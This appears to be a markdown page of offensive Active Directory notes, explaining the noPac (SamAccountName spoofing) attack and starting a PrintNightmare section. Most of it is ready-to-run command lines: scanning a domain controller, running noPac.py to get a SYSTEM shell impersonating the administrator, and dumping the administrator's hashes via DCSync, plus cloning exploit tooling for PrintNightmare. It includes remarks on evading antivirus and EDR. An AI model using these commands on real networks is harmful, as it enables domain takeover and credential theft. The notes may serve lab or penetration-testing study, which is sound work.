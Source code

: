 The [Sam\_The\_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), called as **noPac** or **SamAccountName Spoofing**. This vulnerability are contend in two CVEs: [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287). 

| **42278**   | **42287**    |
|--------------- | --------------- |
| bypass vulnerability with the SAM | vulnerability within the Kerberos PAC in ADDS |

This exploit consist in being able to change the **SamAccountName** of a computer account to that of a DC. Authenticated users can add up to tem compuerts to domain. When doing it, we change the name of the new host to macht the DC's SamAccountName. We must request a tickets to Kerberos, causing the service to issue a ticket under the DC?s name instead of the new name. We will have accesss as that service and provided with SYSTEM shell in the DC. [Here](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware) are a better explanation.

this [tool](https://github.com/Ridter/noPac) can be helpful while doing it. Be sure that Impacket is installed in order to work. Cloned the repo and use the **scanner.py** and **noPac.py** to gain the shell. If the scanner identifies the DC as vulnerable we will notice the **ms-DS-MachineAccountQuota** set to 10. IF it is set to 0 the attack won't success. This is a protection against some AD attacks.
```console
zero@pio$ sudo python3 scanner.py <DOMAIN>.local/<USER>:<PASSWORD> -dc-ip <DC IP> -use-ldap
```

This attack could be *noisy* and be blocked by AV or EDR:
```console
zero@pio$ sudo python3 noPac.py <DOMAIN>.LOCAL/<USER>:<PASSWORD> -dc-ip <DC IP>  -dc-host <HOST> -shell --impersonate administrator -use-ldap
```

Using [smbexec.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py) a semi-interactive shell will spawn. It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use the ccache file to perform a *pass-the-ticket* attack, like DCSync. Also, the flag `-dump` will perform a DCSync using **secretsdump.py** (make sure to remove the ccache file created after):
```console
zero@pio$ sudo python3 noPac.py <DOMAIN>.LOCAL/<USER>:<PASSWORD> -dc-ip <DC IP>  -dc-host <DC HOST> --impersonate administrator -use-ldap -dump -just-dc-user <DOMAIN>/administrator
```

If Windows Defender (or another AV/EDR) is enabled, any command in the shell may fail. Using **smbexec.py** will create a service called **BTOBTO**, any command sent will go to **execute.bat**. With each new command, a new batch script will be created, executed and deleted.

## PrintNightmare

  **PrintNightmare** is the nickname to two CVE ([2021.34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the **Print Spooler service**. This allow RCE and PE. We will be using this [tool](https://github.com/cube0x0/CVE-2021-1675). We need the *cube0x0*'s version of Impacket:
```console
zero@pio$ git clone https://github.com/cube0x0/CVE-2021-1675.gi
zero@pio$ pip3 uninstall impacket
zero@pio$ git clone https://github.com/cube0x0/impacket 
zero@pio$ cd impacket; python3 ./setup.py install
```
